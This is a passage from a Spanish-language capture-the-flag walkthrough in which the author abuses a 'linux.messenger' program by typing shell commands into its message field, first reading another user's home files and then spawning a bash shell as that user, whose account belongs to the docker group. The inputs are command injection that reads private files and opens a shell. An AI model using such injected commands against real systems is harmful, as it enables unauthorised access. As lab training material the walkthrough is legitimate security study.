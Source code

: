 Ahora que sabemos que hay ficheros interesantes, repetimos proceso para leerlos pero con el comando ``cat /home/selena/*``

~~~
Welcome to linux.messenger 


ariana:
selena:
ftpuser:

Enter username to send message : ariana

Enter message for ariana :cat /home/selena/*

Sending message to ariana 
Its Selena personal Diary :::

Today Ariana fight with me for Ajay. so i left her ssh key on FTP. now she resposible for the leak.

711fdfc6caad532815a440f7f295c176

You are near to me. you found selena too.

Try harder to catch me

Message sent to ariana :) 
~~~

La pista que nos da ya la usamos antes para tener acceso SSH, y la flag de Selena no nos sirve de nada y no funciona como contraseña. Así que nos han engañado bien ahí... 
Además, el problema es que salvo esa instrucción que mandamos, se nos sale de ese contexto. 
Por tanto, lo mejor en este caso es introducir "bash" para conseguir estar "permante" como Selena para investigar algo más.

~~~
Welcome to linux.messenger 


ariana:
selena:
ftpuser:

Enter username to send message : ariana

Enter message for ariana :bash

Sending message to ariana 
whoami
selena
id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
~~~
